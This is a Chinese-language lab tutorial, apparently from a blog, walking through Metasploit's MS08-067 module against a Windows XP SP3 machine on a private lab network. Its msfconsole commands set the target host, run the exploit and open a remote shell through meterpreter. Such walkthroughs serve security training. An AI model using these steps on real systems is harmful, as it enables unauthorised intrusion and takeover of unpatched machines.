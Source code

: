 
# 环境准备
kali：192.168.1.149<br /> winxp（sp3 Chinese - Simplified (NX)）：192.168.1.6


# 实践
1、在 kali 终端中开启 msfconsole，输入命令 search ms08-067,会显示出找到的渗透模块。
```
root@kali222:~# msfconsole
msf5 > search ms08-067
```
<br />![](https://img-blog.csdnimg.cn/2020060416545419.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=zO3QP&originHeight=237&originWidth=745&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

2、利用该漏洞模块
```
msf5>use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > show options    ----显示出需要配置的项目
```
<br />![](https://img-blog.csdnimg.cn/20200604174553331.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=UJHyI&originHeight=347&originWidth=738&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

3、查找出可以被攻击的靶机的操作系统型号winxp（sp3 Chinese - Simplified (NX)）
```
msf5 exploit(windows/smb/ms08_067_netapi) > show targets
```
![](https://img-blog.csdnimg.cn/20200604173559724.png#crop=0&crop=0&crop=1&crop=1&id=sGtOO&originHeight=106&originWidth=537&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

4、设置目标主机ip 和系统型号
```
msf5 exploit(windows/smb/ms08_067_netapi) > set rhosts 192.168.1.6
msf5 exploit(windows/smb/ms08_067_netapi) > set target 34
```
<br />![](https://img-blog.csdnimg.cn/20200604173728485.png#crop=0&crop=0&crop=1&crop=1&id=OduX7&originHeight=82&originWidth=715&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

5、输入命令 show options 查看设置
```
msf5 exploit(windows/smb/ms08_067_netapi) > show options
```
<br />![](https://img-blog.csdnimg.cn/2020060417385664.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=YlhdY&originHeight=466&originWidth=893&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

6、输入命令 exploit 开始攻击<br />![](https://img-blog.csdnimg.cn/20200604174111958.png#crop=0&crop=0&crop=1&crop=1&id=UYhmn&originHeight=169&originWidth=737&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

输入shell获取目标机控制权限
```
meterpreter > shell
```
![](https://img-blog.csdnimg.cn/20200604174156797.png#crop=0&crop=0&crop=1&crop=1&id=WeryB&originHeight=140&originWidth=734&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
